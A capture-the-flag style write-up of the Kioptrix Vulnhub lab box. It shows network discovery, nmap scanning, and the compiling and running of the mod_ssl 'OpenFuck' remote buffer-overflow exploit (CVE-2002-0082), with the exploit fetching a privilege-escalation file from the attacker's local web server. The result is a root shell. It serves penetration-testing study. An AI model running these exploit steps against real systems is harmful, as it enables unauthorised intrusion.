 ```yaml
---
published: false
---
```

Vulnhub virtual machine; On the path to OSCP this box offered Apache/OpenSSL vulnerability which led to a custom version of the exploit and an environmental problem and solution. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Initial setup:

This boot-2-root box is on the legacy side of things and there are a few things that need to be accomplished before you are able to boot this image (virtual box)


1. add Kioptix vmdk harddrive to storage as IDE (this box does NOT like SATA - will kernel panic)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363040523_image.png)



2. disable audio

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363076710_image.png)

3. change network adapter to PCnet-PCI II (AM79C970A) && Attached to Adapter

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363130573_image.png)



4. disable usb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363207273_image.png)


With this configuration you should be able to properly boot the box.



----------

# Enumeration

Searching for target:

    netdiscover -r 192.168.56.0/24

*target looks to be 192.168.56.103*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363591282_image.png)


Perform NMAP scan:

    nmap -sC -sV -oA nmap/kio1 192.168.56.103

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363637960_image.png)


*interesting to note that we have quite a few ports to examine.*

Since this is an older box lets search for any open vulnerabilites pertaining to the Apache and its mod_ssl 2.8.4 OpenSSL.

searchsploit

    searchsploit mod_ssl

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550364708694_image.png)


interesting candidate: *Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow* 

Based off the CVE: 2002-0082
There is a vulnerability pertaining to session cache code that fails to initialize memory using a special function that allows for a buffer overflow to execute arbitrary code. 

source: https://nvd.nist.gov/vuln/detail/CVE-2002-0082

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365003778_image.png)


# Exploit
Copy the exploit locally:

    searchsploit -m exploits/unix/remote/764.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365139174_image.png)


view source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365290795_image.png)


*search for any random shell code and/if replace if needed.*

compile source code:

    gcc -o exploit 764.c -lcrypto

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365592122_image.png)


*looks to be missing some dependencies.*

correction: above exploit requires updating and can be correctly found at this repository. 

    git clone https://github.com/heltonWernik/OpenFuck.git

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550367827580_image.png)


download teh ptrace-kmod.c && start python SimpleHTTPServer in directory of file.

edit the external link at line 671


![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369200447_image.png)


install dependencies:

    apt-get install libssl-dev

compile:

    gcc -o OpenFuck OpenFuck.c -lcrypto

Run exploit:

    ./OpenFuck

*Search for which service you are attempting to exploit. Use the following syntax to continue.*

    ./OpenFuck 0x6b \[Target Ip\] [port] -c 40

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368047575_image.png)


Running exploit against box:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368200111_image.png)

    ./OpenFuck 0x6a 192.168.56.103 443 -c 50

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369571756_image.png)


*hung awaiting the race condition of the exploit. Good to see the exploit be pulled from the SimpleHTTPServer.*

# Root - Plot Shift

change of plans: 
Reverted back to website which I know it wont be able to be reached. At that point I performed the steps manually to change the term and get a bash shell.


    TERM=xterm; export TERM=xterm; exec bash -i
![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550370436781_image.png)


bring me the root! 



